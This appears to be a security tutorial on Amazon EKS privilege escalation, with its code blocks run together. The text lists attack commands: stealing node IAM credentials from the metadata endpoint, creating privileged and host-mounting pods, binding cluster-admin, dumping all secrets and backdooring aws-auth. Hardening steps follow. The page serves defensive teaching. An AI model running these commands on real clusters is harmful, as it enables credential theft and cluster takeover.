

Elastic Kubernetes Service (EKS) provides managed Kubernetes clusters. The intersection of K8s RBAC and AWS IAM creates a complex attack surface with multiple privilege escalation paths.
AWS IAM credentials are exchanged for K8s tokens via aws-iam-authenticator. The aws-auth ConfigMap maps IAM roles/users to K8s users/groups for RBAC.
Pods can assume IAM roles via OIDC federation. Web identity tokens are projected into pods and exchanged for AWS credentials.
EKS combines Kubernetes and AWS IAM attack surfaces. Pod compromise leads to node IAM role theft. RBAC misconfigurations enable cluster takeover. The aws-auth ConfigMap is a critical backdoor target.
aws eks list-clustersaws eks update-kubeconfig \\
--name my-clusterkubectl auth can-i --listkubectl get configmap aws-auth \\
-n kube-system -o yamlcurl http://169.254.169.254/latest/\\
meta-data/iam/security-credentials/kubectl run pwned --image=alpine \\
--privileged --command -- sleep infinitykubectl create clusterrolebinding pwned \\
--clusterrole=cluster-admin \\
--user=attackerkubectl get secrets -A -o yamlkubectl edit configmap aws-auth -n kube-system
# Add: - rolearn: arn:aws:iam::ATTACKER:role/backdoor
# username: backdoor-user
# groups: [system:masters]kubectl run escape --image=alpine \\
--overrides='{"spec":{"containers":[{
"name":"escape","image":"alpine",
"volumeMounts":[{"name":"host","mountPath":"/host"}]
}],"volumes":[{"name":"host",
"hostPath":{"path":"/"}}]}}'# Pod spec without IRSA
apiVersion: v1
kind: Pod
spec:
containers:
- name: app
# Uses node's IAM role (shared, over-privileged)
# All pods on node have same AWS permissions
# IMDS accessible at 169.254.169.254All pods share the node IAM role - over-privileged and shared credentials
# Pod spec with IRSA
apiVersion: v1
kind: Pod
spec:
serviceAccountName: my-app-sa # Links to IAM role
containers:
- name: app
# Pod gets unique, scoped credentials
# Uses web identity token federation
# No IMDS access neededPod-specific IAM role with least privilege via OIDC federation
Never rely on node IAM role. Each workload gets scoped credentials.
eksctl create iamserviceaccount \\
--name my-sa --namespace default \\
--cluster my-cluster --attach-policy-arn <arn>Disable public endpoint or restrict to specific IP ranges.
aws eks update-cluster-config \\
--name cluster \\
--resources-vpc-config endpointPublicAccess=falseEncrypt etcd secrets at rest with KMS customer managed key.
--encryption-config provider=keyArn=<kms-key>,
resources=secretsEnforce baseline or restricted pod security policies.
kubectl label namespace default \\
pod-security.kubernetes.io/enforce=restrictedSend K8s audit logs to CloudWatch for monitoring.
aws eks update-cluster-config \\
--name cluster --logging '...audit...'Use IMDSv2 with hop limit 1 to prevent pod access to node role.
aws ec2 modify-instance-metadata-options \\
--instance-id <id> --http-put-response-hop-limit 1